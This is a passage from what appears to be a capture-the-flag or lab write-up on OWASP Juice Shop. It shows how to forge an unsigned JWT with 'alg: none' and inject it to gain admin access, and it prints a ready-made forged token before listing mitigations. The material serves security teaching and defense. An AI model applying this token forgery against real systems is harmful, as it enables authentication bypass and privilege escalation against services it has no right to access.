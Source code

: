 #### 🔸 Payload:

```json
{
  "email": "admin@juice-sh.op",
  "role": "admin"
}
```

1. Base64URL-encode both header and payload.
2. Concatenate them with a `.` and **omit** the signature:

   ```
   <base64url(header)>.<base64url(payload)>.
   ```

#### 🔸 Example (no signature):

```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJlbWFpbCI6ImFkbWluQGp1aWNlLXNoLm9wIiwicm9sZSI6ImFkbWluIn0.
```

> Note: Ensure there's a trailing dot `.` to denote the empty signature.

---

### 🔹 4. Inject the Forged Token

1. Go back to DevTools → `Application → LocalStorage`
2. Replace the original token with the newly forged `alg: none` token
3. Refresh the browser
4. Navigate to `/administration` or attempt admin-level actions

If the server is misconfigured and accepts `alg: none`, **you are now authenticated as an admin** without needing a valid signature.

---

## 🔬 Post-Exploitation Observations

* The server-side JWT validation logic **failed to enforce proper algorithm verification**.
* Accepting `alg: none` violates RFC 7518 recommendations.
* This allows **authentication bypass** and full privilege escalation.

---

## 🛡️ Mitigation Strategies

| Problem                     | Mitigation                                                            |
| --------------------------- | --------------------------------------------------------------------- |
| Insecure algorithm fallback | Disallow `alg: none` on the server entirely                           |
| Algorithm confusion         | Use JWT libraries that validate algorithms strictly                   |
| Token trust                 | Never rely solely on unsigned claims for identity                     |
| Token integrity             | Always verify the cryptographic signature against a known, strong key |

---